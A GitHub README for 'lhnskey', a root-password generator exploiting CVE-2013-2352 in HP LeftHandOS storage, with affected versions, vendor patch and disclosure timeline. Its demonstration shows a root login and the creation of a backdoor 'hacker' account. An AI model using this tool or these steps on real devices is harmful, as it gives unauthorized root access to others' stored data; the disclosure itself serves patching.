 LHNSKEY
=========

[![Build Status](https://travis-ci.org/technion/lhnskey.svg?branch=master)](https://travis-ci.org/technion/lhnskey)

Generator for CVE-2013-2352.

By: technion@lolware.net

Affected Platforms:
    All Hardware and sofware implementations running LeftHandOS 10.5 or earlier, including Failover Manager and VSA.

Fix:
    Apply HP Patch 10152 (LefthandOS 10.5) or 10151 (LefthandOS 10.0).

Revision History:
----------------
    2nd July 2013: Initial design
    3th July 2013: Consulted with HP
    17th July 2013: HP Released Patch

Demonstration:
-------------
The lhnskey application will create an appropriate root password based on the support key encountered during logon.
I recommend the following site to create the s/key response: http://www.ocf.berkeley.edu/~jjlin/jsotp/md5/

    login as: root
    Support Key: 00:0C:29:XX:XX:XX
    Using keyboard-interactive authentication.
    Password:
    Using keyboard-interactive authentication.
    challenge s/key 99 loca11277
    password:

    #You may then grant yourself access to data by creating a CMC account
    [root@localhost lefthand]# adduser hacker 
    [root@localhost lefthand]# passwd hacker Changing password for user hacker.
    New UNIX password: <password>
    BAD PASSWORD: it is based on a dictionary word 
    Retype new UNIX password: <password>
    passwd: all authentication tokens updated successfully.
    [root@localhost lefthand]# chsh hacker
    Changing shell for hacker.
    New shell [/bin/bash]: /etc/lefthand/bin/cliq Shell changed.


Installation
------------
The official repository for lhnskey is the git tree. Install using the following:

    git clone https://github.com/technion/lhnskey
    ./configure
    make
    make check

The ./configure script accepts some options:

    --enable-development enable developer features default=no
    --enable-secure turn on security features default=yes

The autoconf script will link against OpenSSL if detected, otherwise, a shipped md5.c will be compiled in.
